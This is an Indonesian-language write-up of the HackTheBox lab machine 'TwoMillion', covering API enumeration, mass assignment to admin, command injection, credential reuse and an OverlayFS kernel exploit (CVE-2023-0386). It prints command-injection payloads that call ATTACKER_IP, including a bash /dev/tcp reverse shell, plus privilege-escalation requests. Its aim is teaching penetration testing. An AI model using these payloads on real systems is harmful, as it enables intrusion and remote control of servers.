# TwoMillion — HackTheBox Writeup

**Target:** TwoMillion  
**Platform:** HackTheBox  
**Difficulty:** Easy  
**Kategori:** Web Enumeration, Invite Code Generation, API Documentation Exposure, Mass Assignment, Command Injection, Credential Reuse, Linux Kernel Exploit (OverlayFS)

---

## Recon

Seperti biasa, tahap awal dimulai dengan pemindaian port menggunakan Nmap untuk memetakan attack surface yang tersedia.

```bash
sudo nmap -sC -sV -o nmap -v TARGET_IP
```



Dari hasil scanning terlihat bahwa service web di port 80 mengarahkan setiap request ke hostname `2million.htb`. Ini menandakan aplikasi berjalan sebagai virtual host: tanpa hostname tersebut ter-resolve ke IP target, request hanya akan mendarat di halaman default nginx. Karena itu entry berikut ditambahkan ke `/etc/hosts` sebelum aplikasinya dibuka.

```text
TARGET_IP 2million.htb
```



Halaman yang muncul adalah replika situs Hack The Box lengkap dengan statistik "machines online" dan daftar top teams. Tampilan tiruan ini tidak memiliki fungsi nyata — seluruh logika aplikasi berada di balik endpoint API, sehingga enumerasi diarahkan ke sana, bukan ke halaman depannya.


---

## Web Enumeration

Enumerasi direktori dijalankan dengan gobuster di background, bersamaan dengan pemeriksaan halaman secara manual supaya waktu tidak terbuang menunggu wordlist selesai. Gobuster langsung menemukan beberapa endpoint penting: `/invite`, `/login`, `/register`, dan `/api`.



Halaman registrasi dibuka lebih dulu.



Form registrasi ternyata tidak bisa dipakai secara bebas: terdapat field invite code yang wajib diisi. Jadi langkah berikutnya bukan membuat akun, melainkan mencari cara memperoleh invite code tersebut, dan halaman `/invite` adalah tempat paling masuk akal untuk mulai mencari. Source halaman itu diperiksa, dan di dalamnya ditemukan file JavaScript `/js/inviteapi.min.js` yang isinya di-obfuscate memakai packer `eval(function(p,a,c,k,e,d){...})` — pola yang lazim dipakai untuk menyembunyikan kode dari pembacaan langsung. Setelah di-deobfuscate, isinya adalah dua fungsi.

```javascript
function verifyInviteCode(code) {
    var formData = {
        "code": code
    };
    $.ajax({
        type: "POST",
        dataType: "json",
        data: formData,
        url: '/api/v1/invite/verify',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}

function makeInviteCode() {
    $.ajax({
        type: "POST",
        dataType: "json",
        url: '/api/v1/invite/how/to/generate',
        success: function(response) {
            console.log(response)
        },
        error: function(response) {
            console.log(response)
        }
    })
}
```

Dua endpoint internal terbuka dari sini: `/api/v1/invite/verify` untuk memvalidasi code, dan `/api/v1/invite/how/to/generate` untuk meminta petunjuk cara pembuatannya. Endpoint kedua dipanggil langsung dari terminal.

```bash
curl -X POST http://2million.htb/api/v1/invite/how/to/generate | jq .
```

Response-nya berisi data terenkripsi beserta keterangan jenis enkripsinya.

```json
{
  "0": 200,
  "success": 1,
  "data": {
    "data": "Va beqre gb trarengr gur vaivgr pbqr, znxr n CBFG erdhrfg gb /ncv/i1/vaivgr/trarengr",
    "enctype": "ROT13"
  },
  "hint": "Data is encrypted ... We should probably check the encryption type in order to decrypt it..."
}
```

Field `enctype` menyebut ROT13 secara eksplisit, sehingga string pada field `data` bisa langsung di-decode tanpa perlu menebak algoritmanya.



Hasil decode-nya adalah instruksi untuk melakukan POST request ke `/api/v1/invite/generate`. Endpoint pembuat invite code tersebut bisa dipanggil tanpa autentikasi sama sekali — tidak ada pemeriksaan sesi, sehingga seluruh mekanisme invite tidak menambah keamanan apa pun, hanya satu langkah tambahan.

```bash
curl -X POST http://2million.htb/api/v1/invite/generate | jq .
```

Response dari endpoint ini memberikan invite code dalam bentuk base64, sehingga nilainya perlu di-decode dengan `base64 -d` terlebih dahulu sebelum dipakai.



Invite code yang didapat dimasukkan ke halaman `/invite`, yang otomatis mengarahkan ke halaman registrasi. Setelah akun dibuat, login dilakukan dengan kredensial tersebut.




---

## API Enumeration

Setelah login, attack surface membesar: dokumentasi API tersedia langsung di `/api/v1` dan memuat daftar seluruh endpoint, termasuk yang bersifat administratif.



Poin pentingnya, daftar endpoint admin ini bisa dibaca oleh user biasa tanpa hambatan. Sebagai baseline, status admin diperiksa dengan akun yang baru dibuat.

```http
GET /api/v1/admin/auth HTTP/1.1
Host: 2million.htb
Cookie: PHPSESSID=<SESSION_ID>
```

```http
HTTP/1.1 200 OK
server: nginx
date: Mon, 19 Oct 2026 11:05:25 GMT
content-type: application/json
transfer-encoding: chunked
connection: keep-alive
expires: Thu, 19 Nov 1981 08:52:00 GMT
cache-control: no-store, no-cache, must-revalidate
pragma: no-cache

{"message":false}
```

Akun tersebut belum berstatus admin, sesuai ekspektasi. Perhatikan bahwa endpoint khusus admin tetap membalas dengan status 200 dan bukan error otorisasi — penolakannya hanya berupa nilai `false` pada body, yang menandakan tidak ada pemisahan hak akses yang tegas di layer itu. Target berikutnya adalah `PUT /api/v1/admin/settings/update`, endpoint admin yang menerima perubahan data user.


---

## Privilege Escalation — Mass Assignment

Endpoint update settings diuji dengan payload sederhana: mengirim field `is_admin` langsung di body request, bersamaan dengan field yang memang seharusnya boleh diubah oleh user.

```http
PUT /api/v1/admin/settings/update HTTP/1.1
Host: 2million.htb
Content-Type: application/json
Cookie: PHPSESSID=<SESSION_ID>

{"email":"lutz@pwn.me","is_admin":1}
```

```http
HTTP/1.1 200 OK
server: nginx
date: Mon, 19 Oct 2026 11:11:59 GMT
content-type: application/json
transfer-encoding: chunked
connection: keep-alive
expires: Thu, 19 Nov 1981 08:52:00 GMT
cache-control: no-store, no-cache, must-revalidate
pragma: no-cache

{"id":13,"username":"lutz","is_admin":1}
```

Backend menerima field `is_admin` apa adanya dan menyimpannya sebagai bagian dari record user. Ini mass assignment: body request di-bind langsung ke model user tanpa whitelist field, sehingga parameter internal yang seharusnya hanya bisa diubah oleh admin ikut ter-update dari sisi user biasa. Verifikasi dilakukan dengan request GET yang sama seperti baseline sebelumnya, dan nilainya sudah berubah.



Akun user biasa kini berstatus admin, dan seluruh endpoint khusus admin sudah bisa dipakai. Dari sini attack surface yang tersisa adalah endpoint VPN, yang pada dokumentasi API terdaftar sebagai generator konfigurasi VPN untuk user tertentu.


---

## Initial Foothold — Command Injection

Endpoint `POST /api/v1/admin/vpn/generate` diuji dari dua sisi. Pertama, dari sisi validasi input: username yang tidak terdaftar di database tetap diproses — server tidak memverifikasi apakah username tersebut benar-benar ada, sehingga hasil VPN dibuat berdasarkan input bebas. Kedua, dari sisi karakter khusus: backend kemungkinan besar memanggil `openssl` melalui `exec()` memakai string perintah yang berisi username, sehingga karakter seperti `;` tidak di-escape dan perintah tambahan ikut dieksekusi oleh shell. Uji pertama memakai request balik ke listener kosong untuk membuktikan eksekusi perintah terjadi di sisi server.

```bash
curl --json '{"username":"lutz; curl http://ATTACKER_IP/"}' -H "Cookie: PHPSESSID=<SESSION_ID>" http://2million.htb/api/v1/admin/vpn/generate
```

Listener yang menangkap koneksi dari IP target menunjukkan perintah yang disisipkan benar-benar dieksekusi oleh server dengan konteks user web, bukan sekadar tercatat di log.



Foothold diambil dengan mengubah payload menjadi reverse shell ke port 9004.

```http
POST /api/v1/admin/vpn/generate HTTP/1.1
Host: 2million.htb
Content-Type: application/json
Cookie: PHPSESSID=<SESSION_ID>

{"username":"lutz; bash -c 'bash -i >& /dev/tcp/ATTACKER_IP/9004 0>&1'"}
```

Shell yang masuk di-upgrade ke PTY interaktif supaya bisa dipakai untuk enumerasi lanjutan tanpa kehilangan job control.




---

## Lateral Movement — Credential Reuse

Enumerasi manual di direktori web langsung menemukan file `.env` yang berisi kredensial database dalam bentuk plaintext.

```text
DB_HOST=127.0.0.1
DB_DATABASE=htb_prod
DB_USERNAME=admin
DB_PASSWORD=SuperDuperPass123
```

Di box ini juga terdapat satu user non-root dengan shell valid, dan password database tersebut ternyata dipakai ulang sebagai password login user `admin` melalui `su`.

```text
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
admin:x:1000:1000::/home/admin:/bin/bash
```



Perpindahan ini murni hasil password reuse: kredensial yang bocor dari file konfigurasi aplikasi dipakai kembali untuk autentikasi sistem, sehingga tidak ada celah tambahan yang dibutuhkan untuk berpindah user.


---

## Privilege Escalation — OverlayFS (CVE-2023-0386)

Enumerasi manual pada sesi `admin` tidak menemukan jalur eskalasi. linpeas dijalankan sebagai pembanding untuk memastikan tidak ada temuan yang terlewat, dan hasilnya juga tidak menunjukkan vektor yang bisa dieksploitasi. Jalur terakhir yang tersisa adalah kernel exploit.

Setelah riset, celah yang dipakai adalah CVE-2023-0386, bug pada subsistem OverlayFS saat operasi copy up sebuah file dari mount `nosuid` ke mount lain: pemetaan UID-nya tidak benar, sehingga file dengan atribut SUID dari mount tersebut bisa muncul di mount tujuan dengan kepemilikan root dan tetap mengeksekusi kode sebagai root. Di Ubuntu, celah ini ditutup pada kernel 5.15.0-70.77 (USN-6025-1); karena exploitnya berhasil di box ini, kernel target masih berada di build sebelum patch tersebut.

Exploit yang dipakai bersumber dari https://github.com/puckiestyle/CVE-2023-0386, dan isinya terbagi menjadi tiga komponen yang saling bergantung:

- `fuse.c` — menyajikan direktori `lower` sebagai FUSE filesystem palsu. File `/file` di dalamnya dilaporkan punya mode `04777` dengan UID/GID `0`, dan isinya adalah binary shell yang dikompilasi dari `getshell.c` (dibaca dari path yang di-pass sebagai argumen). Jadi mount `lower` seolah-olah berisi binary SUID milik root.
- `exp.c` — membuat ulang mount chain di namespace baru (`unshare` + `uid_map`/`gid_map`), me-mount overlay dengan `lowerdir`/`upperdir`/`workdir` dari `./ovlcap`, lalu memicu copy up dengan membuat file di direktori `merge`. Copy up inilah yang membawa file "milik root" tadi ke `upper`.
- `getshell.c` — payload yang dijalankan setelah copy up: `setuid(0)`, `setgid(0)`, lalu `system("/bin/bash")`.

Kompilasi dilakukan dengan:

```bash
make all
```

